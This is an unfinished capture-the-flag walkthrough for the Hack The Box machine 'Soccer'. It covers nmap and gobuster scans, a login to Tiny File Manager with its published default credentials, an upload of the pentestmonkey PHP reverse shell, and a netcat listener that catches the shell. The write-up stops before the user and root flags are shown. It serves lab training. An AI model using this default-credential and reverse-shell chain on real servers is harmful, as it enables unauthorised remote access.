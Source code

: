 # Reconnaissance

## Port Scan (nmap)

**Command:**\
*sudo nmap -sC -sV -O -v -T4 -p- {IP address}*

**Command Description:**\
* -sC : Use default scripts
* -sV Service version
* -O : OS detection
* -v : Verbose
* -T4 : Scan intensity (aggressive), 
* -p- : Scan all ports
* {IP address} - Target host

**Results:**\
TCP Ports Open:
* 22 - SSH
* 80 - HTTP
* 9091 - mltec-xmlmail

**Actions:**\
Edit */etc/hosts* and add the follwing line to display the website correctly on port 80 (HTTP): *{IP address} 	soccer.htb*

## Directory Scan (gobuster)

**Command:**\
*gobuster dir --url http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt*

**Command Description:**
* dir : Directory scan
* --url : Target url
* -w : Directory wordlist

**Results:**\
Directory found: */tiny*

**Actions:**\
Navigate to: *http://soccer.htb/tiny*

## OSINT

**Actions:**\
Search on google for: *tinyfilemanager default credentials*

**Results**\
URL: https://github.com/prasathmani/tinyfilemanager

Default Credentials:\
Username/Password:
* *admin/admin@123*
* *user/12345*

Note: TinyFileManager uses PHP.

## PHP Reverse Shell

**Actions:**\
Create a new file with this php reverse shell script: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (or any other PHP reverse shell script).\
Edit the file and change the following variables *$ip* (the machine a victim should connect to) and *$port* (the port a victim should connect to).

## Reverse Shell Listener (netcat)

**Command:** *sudo nc -lvnp 9001*

**Command Description:**\
* -l : Listener (listen for incoming connections)
* -v : Verbose
* -n : Numeric only ip addresses (no DNS)
* -p : Port

**Results:**\
Listening for incoming connections on port 9001.


## Account Access

**Actions:**\
Use admin credentials acquired from the *OSINT* phase (*admin/admin@123*) to log into the tinyfilemanger portal *soccer.htb/tiny*

## File Upload

**Actions:**\
Navigate to *tiny* directory and then *uploads* directory and then press upload on the top right corner and choose the previously created modified php reverse shell from the *PHP Reverse Shell* phase.

## Triggering The PHP Reverse Shell

**Actions:**\
Navigate to: http://soccer.htb/tiny/uploads/php-reverse-shell.php

**Results:**\
The PHP reverse shell will trigger and open a shell from the netcat listener that was setup in the *Reverse Shell Listener (netcat)* phase.

TO BE CONTINUE:

# Goals

* USER Flag:
* ROOT Flag:











